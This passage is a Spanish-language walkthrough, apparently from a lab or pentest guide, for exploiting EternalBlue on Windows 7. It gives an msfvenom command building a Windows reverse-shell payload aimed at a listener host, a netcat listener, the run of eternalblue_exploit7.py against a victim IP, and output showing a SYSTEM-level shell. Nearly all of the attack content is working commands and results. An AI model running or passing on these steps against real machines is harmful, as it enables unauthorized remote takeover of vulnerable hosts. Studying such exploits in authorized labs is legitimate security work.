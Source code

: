 ```
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=192.168.5.199 LPORT=7777
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```

Despues de que configuremos el archivo malicioso con esa herramienta, nos lo habra creado algo llamado como sc\_x64.bin

Ahora nos pondremos a la escucha con el puerto que hayamos configurado.

```shell
nc -lvnp <PORT>
```

Dentro de la carpeta de la herramienta, iremos al inicio.

```shell
cd ..
```

Y daremos permisos de ejecuccion al .py que queramos ejecutar dependiendo de a que windows le vayamos atacar.

```shell
chmod +x eternalblue_exploit7.py
```

Y ahora ejecutaremos el exploit proporcionando la IP de la victima y el shell code que generamos con la anterior herramienta.

```shell
python3 eternalblue_exploit7.py <IP> shellcode/sc_x64.bin
```

Info:

```
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Home Basic 7600
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

> Info `nc`

```
nc -lvnp 7777
listening on [any] 7777 ...
connect to [192.168.5.199] from (UNKNOWN) [192.168.5.138] 49184
Microsoft Windows [Versin 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Una vez hecho esto, si nos vamos a donde teniamos la escucha, veremos que nos creo una shell de forma autenticada como Administrator en el windows.
